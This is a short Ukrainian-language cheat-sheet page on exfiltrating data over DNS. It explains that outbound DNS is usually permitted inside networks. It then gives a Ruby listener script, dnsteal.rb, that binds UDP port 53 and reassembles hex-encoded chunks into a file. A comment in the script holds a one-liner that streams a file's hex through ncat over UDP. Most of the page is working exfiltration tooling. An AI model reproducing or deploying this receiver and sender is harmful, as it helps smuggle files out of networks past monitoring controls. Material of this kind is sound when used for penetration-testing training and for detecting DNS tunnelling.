 # DNS 


## Видобування даних DNS 
Віхідне DNS підключення зазвичай дозволено всередині локальних мереж, що є основною перевагою використання DNS для передачі даних до зовниішнього серверу.

**dnsteal.rb**
```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
# for hex in $(xxd -p ethernet-cable.jpg); do echo $hex | ncat -u localhost 53 ; done
# 
require 'socket'

if ARGV.size < 1
  puts "[+] sudo ruby #{__FILE__} <FILENAME>"
  exit
else
  file = ARGV[0]
end

# Відкриваємо UDP Сокет та прикріпляємо його до порту 53 на всіх інтерфейсах
udpsoc = UDPSocket.new
udpsoc.bind('0.0.0.0', 53)

begin

  data     = ''
  data_old = ''
  
  loop do
    response = udpsoc.recvfrom(1000)
    response = response[0].force_encoding("ISO-8859-1").encode("utf-8")
    data = response.match(/[^<][a-f0-9]([a-f0-9]).*[a-f0-9]([a-f0-9])/i).to_s
    
    # Записужмо отримані дані в файл
    File.open(file, 'a') do |d|
      d.write [data].pack("H*") unless data == data_old     # Don't write the same data twice(poor workaround)
      puts data unless data == data_old
    end
    
    data_old = data 
  end

rescue Exception => e
  puts e
end
```

Запустіть скрипт:
```
ruby dnsteal.rb image.jpg
```




<br><br><br>
---
- [dnsteal.py](https://github.com/m57/dnsteal)